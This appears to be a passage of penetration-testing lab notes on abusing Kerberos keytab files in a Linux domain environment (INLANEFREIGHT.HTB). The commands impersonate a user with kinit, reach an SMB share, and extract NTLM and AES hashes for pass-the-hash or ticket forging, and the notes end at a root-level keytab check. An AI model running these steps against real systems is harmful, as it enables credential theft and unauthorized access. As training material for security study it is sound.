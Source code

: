     ```sh
    klist -k -t
    # klist reads info from keytab file

    klist
    # check which ticket is being used

    kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
    # principal and path were found out from klist earlier

    klist
    # now we are using carlos principal

    smbclient //dc01/carlos -k -c ls
    # we can then access a shared folder as carlos

    # if we need to keep ticket from old session
    # before importing keytab, save copy of ccache file from env var KRB5CCNAME
    ```

    ```sh
    # we can also extract keytab hashes with keytabextract tool
    python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab
    # this gives us NTLM and AES hashes
    
    # with NTLM hash, we can either crack it or do PtH
    # with AES hash, we can crack hash or forge tickets using Rubeus

    # if we have plaintext password, we can login as that user on the machine
    su - carlos@inlanefreight.htb
    ```

    ```sh
    # if we have root access
    # we can try to check Linux keytab file at default location
    ls -la /etc/krb5.keytab
